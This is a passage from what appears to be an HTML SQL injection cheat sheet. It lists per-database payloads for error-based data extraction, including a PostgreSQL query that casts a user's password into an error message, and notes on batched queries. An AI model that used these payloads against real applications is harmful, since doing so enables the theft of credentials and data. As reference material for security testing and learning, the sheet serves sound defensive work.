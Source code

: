     </tr>
</table>

<h2>Extracting data via visible error messages</h2>
<p>
    You can potentially elicit error messages that leak sensitive data returned by your malicious query.
</p>
<table>
    <tr>
        <th>
            Microsoft
        </th>
        <td>
            <code>SELECT 'foo' WHERE 1 = (SELECT 'secret')</code><br />
            <code>&gt; Conversion failed when converting the varchar value 'secret' to data type int.</code>
        </td>
    </tr>
    <tr>
        <th>
            PostgreSQL
        </th>
        <td>
            <code>SELECT CAST((SELECT password FROM users LIMIT 1) AS int)</code><br />
            <code>&gt; invalid input syntax for integer: "secret"</code>
        </td>
    </tr>
    <tr>
        <th>
            MySQL
        </th>
        <td>
            <code>SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))</code><br />
            </code>&gt; XPATH syntax error: '\secret'</code>
        </td>
    </tr>
</table>

<h2>Batched (or stacked) queries</h2>
<p>
    You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
</p>
<table>
    <tr>
        <th>
            Oracle
        </th>
        <td>
            <code>Does not support batched queries.</code>
        </td>
    </tr>
    <tr>
        <th>
            Microsoft
        </th>
        <td>
            <code>QUERY-1-HERE; QUERY-2-HERE</code><br />
            <code>QUERY-1-HERE QUERY-2-HERE</code>
        </td>
    </tr>
    <tr>